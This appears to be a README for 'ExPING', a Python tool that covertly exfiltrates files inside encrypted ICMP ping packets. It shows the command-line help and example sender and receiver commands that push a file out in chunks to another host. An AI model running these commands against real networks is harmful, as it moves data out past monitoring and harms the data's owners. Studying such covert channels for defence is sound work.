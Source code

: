 # ExPING is a simple Python Exfiltration tool

Requires:

* Python >3.7
* Scapy
* cryptography

# Usage:
```
usage: exping [-h] [-m MSG] [-a ADDRESS] [-c COUNT] [-i INTERVAL] [-k KEY] [-d] [-e] [-s MAX_SIZE]
              [-t {receiver,sender}] [-f FILE]

CLI util to send data in ping

optional arguments:
  -h, --help            show this help message and exit
  -m MSG, --msg MSG     Message to send in ping
  -a ADDRESS, --address ADDRESS
                        Address to send the ping
  -c COUNT, --count COUNT
                        Number of pings to send
  -i INTERVAL, --interval INTERVAL
                        Interval between pings
  -k KEY, --key KEY     Key to use for encryption
  -d, --decrypt         Decrypt the message
  -e, --encrypt         Encrypt the message
  -s MAX_SIZE, --max_size MAX_SIZE
                        Max size of the message
  -t {receiver,sender}, --type {receiver,sender}
                        Receiver or Sender, case insensitive
  -f FILE, --file FILE  File to send/receive
```

# Example

## Sender

` $> exping  -a target -f <file path> -s <chunk size> -e -k <cript key> `

## Receiver

`$> exping -a source -t receiver -f <file path> -k <cript key> `
